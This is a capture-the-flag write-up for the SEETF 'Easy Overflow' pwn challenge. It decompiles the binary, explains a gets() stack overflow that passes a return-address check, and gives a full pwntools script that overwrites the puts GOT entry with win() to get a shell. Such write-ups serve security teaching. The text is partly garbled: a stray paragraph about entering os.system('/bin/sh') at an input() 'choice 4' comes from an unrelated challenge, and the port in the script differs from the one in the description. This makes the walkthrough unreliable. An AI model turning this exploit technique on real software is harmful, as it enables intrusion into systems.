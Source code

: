 ## Easy Overflow
![overflow](images/easyoverflow.png)

### Description
>Author: @L0uisJ0shua
>It’s about drive, it’s about power, we stay hungry, we devour Put in the work, put in the hours and take what’s ours. Time to get to the Hall of Fame and be among the GOATS.
>nc fun.chall.seetf.sg 50004
>sMD5: 3264e936e673b0de0ec61698b9bb930f


### Introduction
Bufferoverflow challenge, but this time no sourcecode given, we can decompile the ELF file with IDA or Ghidra. Here I'm using IDA7.7.\
No PIE and no Canary.
```bash
linuz@linz:~/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow$ checksec easy_overflow
[*] '/home/linuz/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow/easy_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The **main()** function it's like this:\
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  puts("I will let you  overflow me.");
  vuln();
  puts("I will give you one more chance.");
  fgets(s, 8, stdin);
  puts(s);
  return 0;
}
```

And the **vuln()** function is like this:\
```c
int vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  char *retaddr; // [rsp+28h] [rbp+8h]

  gets(v1);
  if ( retaddr != main + 70 )
  {
    puts("Naughty Boi\n");
    exit(-1);
  }
  return puts("Good  boi\n");
}
```

There's a bufferoverflow in **vuln()** because program using **gets()** but there's a manual check on return if return not **main+70** it will exit.\
With this bufferoverflow we can overwrite the address of **s** at **main()** function. So after back to main it will like this.\
![overflow](images/easyoverflow1.png)
```py
payload = b'A'*32
payload += p64(0xdeadbeef)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
```
With this we can overwrite the GOT PUTS to **win()** function. Because there's `lea, [rbp-0x20]` our value will be substracted with 0x20, just add +0x20 to get the correct value.\
Full Script:

The bug is on **input()** at choice 4, because the program already **import os**, then just simply input **os.system("/bin/sh")** to get shell

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./easy_overflow")
p = process("./easy_overflow")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50003

cmd = """
b*0x00000000004011a1
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)


payload = b'A'*32
payload += p64(elf.got['puts']+0x20)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
p.sendline(p64(elf.sym['win']))
p.interactive()
````